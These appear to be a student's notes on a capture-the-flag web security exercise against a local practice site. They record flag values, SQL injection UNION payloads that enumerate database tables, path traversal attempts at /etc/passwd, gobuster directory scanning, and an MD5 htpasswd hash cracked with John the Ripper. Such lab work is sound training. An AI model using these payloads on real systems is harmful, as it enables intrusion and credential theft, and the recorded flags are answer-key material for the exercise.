 ### Flag 00 03A944B434D5BAFF05F46C4BEDE5792551A2595574BCAFC9A6E25F67C382CCAA

The first vulnerability we found is the possibility to cheat very easily on a survey hosted on the website.
The server assumes the values as being from 1 to 10, but you can send the request with a much higher grade.

http://localhost:13080/?page=survey
Inspect option of Ben
Change value to 11 (negative didn't work)

### Flag 01 (WIP)

Search members page queries the database directly using SQL

vulnerable to sql injections we assume

5 UNION SELECT COUNT(_), NULL FROM users --
5 UNION SELECT COUNT(_), first_name FROM users --

THIS LISTS ALL TABLE NAMES

```
6 UNION SELECT NULL, table_name FROM information_schema.tables--
```

this lists all column names

```
6 UNION SELECT NULL, column_name FROM information_schema.columns--
```

this lists all columns of the table users, we're using hex because strings are being escaped

```
6 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=0x7573657273--
```

listing all columns gave us this :

```
ID: 5 UNION SELECT NULL, column_name FROM information_schema.columns--
First name:
Surname : FLAG
```

which is sus

but after finding the table that this columbs belong to

```

ID: 5 UNION SELECT NULL, table_name FROM information_schema.columns WHERE column_name=0x464C4147--
First name:
Surname : INNODB_SYS_TABLES

```

and trying to get FLAG from it

```

5 UNION SELECT NULL, FLAG FROM INNODB_SYS_TABLES--

```

we get

```

Table 'Member_Sql_Injection.INNODB_SYS_TABLES' doesn't exist

```

### Flag 02 1D4855F7337C0C14B6F44946872C4EB33853F40B2D54393FBE94F49F1E19BBB0

http://localhost:13080/index.php?page=recover
Change webmaster@borntosec.com to whatever
1D4855F7337C0C14B6F44946872C4EB33853F40B2D54393FBE94F49F1E19BBB0

### Flag 03 0FBB54BBF7D099713CA4BE297E1BC7DA0173D8B3C21C1811B916A3A86652724E

http://localhost:13080/index.php?page=feedback
Name: a
0FBB54BBF7D099713CA4BE297E1BC7DA0173D8B3C21C1811B916A3A86652724E

### Flag 04 (WIP)

Hashcrack this http://localhost:13080/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f

### Flag 05 (WIP)

a weirdly loaded image http://localhost:13080/index.php?page=media&src=1

### Flag 06 (WIP)

Wtf?
http://localhost:13080/index.php?page=

### Flag 07 (WIP)

cookie I_am_admin

### Flag 08 d19b4823e0d5600ceed56d5e896ef328d7a2b9e7ac7e80f4fcdb9b10bcb3e7ff

found this dir using gobuster

http://localhost:8080/whatever/

there is a htpasswd file containing

```
`root:437394baff5aa33daa618be47b75cb49`
```

Seems to be hashed in md5, we cracked the password using John the Ripper:

```bash
../john/run/john --format=Raw-MD5 htpasswd
```

gives us

```
Enabling duplicate candidate password suppressor
qwerty123@       (root)
```

then

http://localhost:8080/admin/

connect using root and qwerty123@

### FLAG 09 (WIP)

http://localhost:8080/index.php?page=../../../../etc/passwd

ALMOST

http://localhost:8080/index.php?page=../../../../../var/log/httpd/access.log

STILL NOPE

### FLAG 10 (WIP)

SEARCH IMAGE, IMAGE NUMBER 5

comes up to

```
ID: 5
Title: Hack me ?
Url : borntosec.ddns.net/images.png
```

### TO NOTE

➜ utenret gobuster dir -u http://localhost:8080/ -w KaliLists/dirb/big.txt -b 200,975

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://localhost:8080/
[+] Method: GET
[+] Threads: 10
[+] Wordlist: KaliLists/dirb/big.txt
[+] Negative Status codes: 200,975
[+] User Agent: gobuster/3.6
[+] Timeout: 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin (Status: 301) [Size: 193] [--> http://localhost/admin/]
/audio (Status: 301) [Size: 193] [--> http://localhost/audio/]
/css (Status: 301) [Size: 193] [--> http://localhost/css/]
/errors (Status: 301) [Size: 193] [--> http://localhost/errors/]
/fonts (Status: 301) [Size: 193] [--> http://localhost/fonts/]
/images (Status: 301) [Size: 193] [--> http://localhost/images/]
/includes (Status: 301) [Size: 193] [--> http://localhost/includes/]
/js (Status: 301) [Size: 193] [--> http://localhost/js/]
/whatever (Status: 301) [Size: 193] [--> http://localhost/whatever/]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================

```
